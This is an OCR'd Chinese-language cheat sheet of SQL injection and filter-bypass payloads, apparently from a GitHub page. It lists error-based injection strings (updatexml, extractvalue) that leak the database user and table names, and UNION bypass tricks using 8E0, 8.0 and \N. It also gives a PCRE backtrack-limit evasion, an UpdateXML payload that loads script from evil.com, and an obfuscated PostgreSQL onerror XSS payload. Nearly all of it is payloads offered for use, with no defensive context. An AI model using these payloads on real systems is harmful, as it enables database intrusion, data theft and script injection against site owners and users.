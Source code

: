 ## 生僻函数

MySQL/PostgreSQL支持XML函数：Select UpdateXML(‘<script x=_></script> ’,’/script/@x/’,’src=//evil.com’);　　　　　　　　　　

?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))

SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql

?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

and 1=(updatexml(1,concat(0x5c,(select user()),0x5c),1))

and extractvalue(1, concat(0x5c, (select user()),0x5c))

## \N绕过

\N相当于NULL字符

select * from users where id=8E0union select 1,2,3,4,5,6,7,8,9,0
select * from users where id=8.0union select 1,2,3,4,5,6,7,8,9,0
select * from users where id=\Nunion select 1,2,3,4,5,6,7,8,9,0

## PCRE绕过

PHP 的 pcre.backtrack_limit 限制利用
union/*aaaaaaaxN*/select

上面的还不行？尝试修改语句逻辑再绕过试试？